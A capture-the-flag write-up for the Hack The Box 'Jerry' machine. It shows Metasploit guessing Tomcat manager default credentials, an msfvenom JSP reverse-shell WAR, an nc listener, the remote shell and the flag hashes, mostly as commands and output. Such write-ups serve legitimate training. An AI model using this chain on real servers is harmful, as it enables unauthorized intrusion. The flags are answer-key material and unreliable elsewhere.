





# MACHINE CHALLENGE: JERRY

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.95
OS: Windows
```

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.95

Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-01 18:04 EDT
Nmap scan report for 10.10.10.95
Host is up (0.50s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2012|7|8|Phone|2008|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   571.26 ms 10.10.16.1
2   571.28 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.57 seconds
```

So we have just port 8080 open running Apache Tomcat 7.0.88? Our OS
version appears to be Microsoft 2012.



### APACHE TOMCAT

Searching around for Tomcat vulnerabilities, we found this one that seems to
apply to an older version of Tomcat, but we try it anyway and it didn't work.

```
https://github.com/breaktoprotect/CVE-2017-12615
```

Searching around some more, we come across our old friend `metasploit` and
see several attacks available.

```
msf auxiliary(scanner/http/tomcat_mgr_login) > search tomcat

Matching Modules
================

   Name                                                         Disclosure Date  Rank       Description
   ----                                                         ---------------  ----       -----------
   auxiliary/admin/http/tomcat_administration                                    normal     Tomcat Administration Tool Default Access
   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     Tomcat UTF-8 Directory Traversal Vulnerability
   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     Apache Commons FileUpload and Apache Tomcat DoS
   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     Hashtable Collisions
   auxiliary/scanner/http/tomcat_enum                                            normal     Apache Tomcat User Enumeration
   auxiliary/scanner/http/tomcat_mgr_login                                       normal     Tomcat Application Manager Login Utility
   exploit/multi/http/struts_code_exec_classloader              2014-03-06       manual     Apache Struts ClassLoader Manipulation Remote Code Execution
   exploit/multi/http/struts_dev_mode                           2012-01-06       excellent  Apache Struts 2 Developer Mode OGNL Execution
   exploit/multi/http/tomcat_jsp_upload_bypass                  2017-10-03       excellent  Tomcat RCE via JSP Upload Bypass
   exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Apache Tomcat Manager Application Deployer Authenticated Code Execution
   exploit/multi/http/tomcat_mgr_upload                         2009-11-09       excellent  Apache Tomcat Manager Authenticated Upload Code Execution
   exploit/multi/http/zenworks_configuration_management_upload  2015-04-07       excellent  Novell ZENworks Configuration Management Arbitrary File Upload
   post/multi/gather/tomcat_gather                                               normal     Gather Tomcat Credentials
   post/windows/gather/enum_tomcat                                               normal     Windows Gather Apache Tomcat Enumeration
```

Let's try the Tomcat login module first.

```
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(scanner/http/tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8080
RPORT => 8080
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:both (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

.. and we have a hit!~ (`tomcat:s3cret`).



Using those credentials, we get in.



### REVERSE SHELL

While it's all fine and dandy we have application level access now, we need a
way to get to the OS. Let's try and get a shell!

```
msf auxiliary(scanner/http/tomcat_mgr_login) > use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(multi/http/tomcat_mgr_upload) > set PASSWORD s3cret
PASSWORD => s3cret
msf exploit(multi/http/tomcat_mgr_upload) > set RHOST 10.10.10.95
RHOST => 10.10.10.95
msf exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/tomcat_mgr_upload) > set TARGETURI /manager
TARGETURI => /manager
msf exploit(multi/http/tomcat_mgr_upload) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Java Universal
   1   Windows Universal
   2   Linux x86


msf exploit(multi/http/tomcat_mgr_upload) > set TARGET 1
TARGET => 1
msf exploit(multi/http/tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.10.16.25:4444 
[*] Retrieving session ID and CSRF token...
[-] Exploit aborted due to failure: unknown: Unable to access the Tomcat Manager
[*] Exploit completed, but no session was created.
```

Hm.. well `metasploit` wasn't able to do the work for us..

.. so we'll have to attack Tomcat manually by uploading an exploit through our
Tomcat Manager util access. Let's see what exploits are available to us..

```
$ msfvenom -l payloads | grep shell_reverse_tcp | grep java
    java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
    java/shell_reverse_tcp                              Connect back to attacker and spawn a command shell
```

Let's try the JSP one?

We'll also need to specify the format - in our case we want a `war` file since
we are attacking the Tomcat server.

```
$ msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

And finally, we need to figure out what our local Kali VM's ip address is on
the hackthebox network..

```
$ ip a | egrep -oh "inet 10.10.1".{7}
inet 10.10.16.31/23
```

Now we are ready to generate our payload..

```
$ msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.16.31 LPORT=4444 > filoshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
$ unzip -l filoshell.war 
Archive:  filoshell.war
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2018-09-02 12:30   WEB-INF/
      259  2018-09-02 12:30   WEB-INF/web.xml
     1497  2018-09-02 12:30   yxyonnwa.jsp
---------                     -------
     1756                     3 files
```

We make a note of the randomly generated `yxyonnwa.jsp` metasploited used for
the javaserver page reverse shell code. This is important because we will need
to know it to access our code from the Tomcat server.

Before we launch our attack, we need to setup a listener on our local machine
to catch the reverse shell.

```
$ nc -v -l -p 4444
listening on [any] 4444 ...
```

Now we upload our `.war` payload to Tomcat through the Tomcat Application
Manager..



.. and we can navigate to `10.10.10.95:8080/filoshell/yxyonnwa.jsp` to trigger
our exploit application (Tomcat manager application will by default put files
located inside the `.war` archive in a directory under the archive name).



We have a shell to our machine!

```
C:\apache-tomcat-7.0.88>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\apache-tomcat-7.0.88

06/19/2018  04:07 AM    <DIR>          .
06/19/2018  04:07 AM    <DIR>          ..
06/19/2018  04:06 AM    <DIR>          bin
06/19/2018  06:47 AM    <DIR>          conf
06/19/2018  04:06 AM    <DIR>          lib
05/07/2018  02:16 PM            57,896 LICENSE
09/03/2018  01:46 AM    <DIR>          logs
05/07/2018  02:16 PM             1,275 NOTICE
05/07/2018  02:16 PM             9,600 RELEASE-NOTES
05/07/2018  02:16 PM            17,454 RUNNING.txt
06/19/2018  04:06 AM    <DIR>          temp
09/03/2018  02:37 AM    <DIR>          webapps
06/19/2018  04:34 AM    <DIR>          work
               4 File(s)         86,225 bytes
               9 Dir(s)  27,596,300,288 bytes free
```

### OWN USER / ROOT

Now let's navigate around the system to look for our flags..

```
C:\apache-tomcat-7.0.88>cd C:\Users\Administrator\Desktop\flags
cd C:\Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,581,222,912 bytes free
C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
